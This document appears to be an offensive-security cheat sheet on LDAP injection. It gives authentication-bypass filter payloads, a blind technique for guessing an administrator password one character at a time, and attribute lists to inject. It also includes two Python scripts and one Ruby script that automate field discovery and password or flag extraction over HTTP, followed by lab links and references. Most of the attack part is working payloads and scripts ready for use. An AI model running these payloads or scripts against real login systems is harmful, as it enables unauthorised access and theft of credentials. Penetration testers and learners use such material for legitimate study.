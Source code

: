 # LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Summary

* [Methodology](#methodology)
    * [Authentication Bypass](#authentication-bypass)
    * [Blind Exploitation](#blind-exploitation)
* [Defaults Attributes](#defaults-attributes)
* [Exploiting userPassword Attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
    * [Discover Valid LDAP Fields](#discover-valid-ldap-fields)
    * [Special Blind LDAP Injection](#special-blind-ldap-injection)
* [Labs](#labs)
* [References](#references)

## Methodology

LDAP Injection is a vulnerability that occurs when user-supplied input is used to construct LDAP queries without proper sanitization or escaping

### Authentication Bypass

Attempt to manipulate the filter logic by injecting always-true conditions.

**Example 1**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

**Example 2**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

### Blind Exploitation

This scenario demonstrates LDAP blind exploitation using a technique similar to binary search or character-based brute-forcing to discover sensitive information like passwords. It relies on the fact that LDAP filters respond differently to queries based on whether the conditions match or not, without directly revealing the actual password.

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

**LDAP Filter Breakdown**:

* `&`: Logical AND operator, meaning all conditions inside must be true.
* `(sn=administrator)`: Matches entries where the sn (surname) attribute is administrator.
* `(password=X*)`: Matches entries where the password starts with X (case-sensitive). The asterisk (*) is a wildcard, representing any remaining characters.

## Defaults Attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword Attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover Valid LDAP Fields

```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### Special Blind LDAP Injection

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Exploitation script by [@noraj](https://github.com/noraj)

```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```

## Labs

* [Root Me - LDAP injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)
* [Root Me - LDAP injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)

## References

* [[European Cyber Week] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN - October 31, 2018](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [How To Configure OpenLDAP and Perform Administrative LDAP Tasks - Justin Ellingwood - May 30, 2015](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* [How To Manage and Use LDAP Servers with OpenLDAP Utilities - Justin Ellingwood - May 29, 2015](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [LDAP Blind Explorer - Alonso Parada - August 12, 2011](http://code.google.com/p/ldap-blind-explorer/)
* [LDAP Injection & Blind LDAP Injection - Chema Alonso, José Parada Gimeno - October 10, 2008](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
* [LDAP Injection Prevention Cheat Sheet - OWASP - July 16, 2019](https://www.owasp.org/index.php/LDAP_injection)
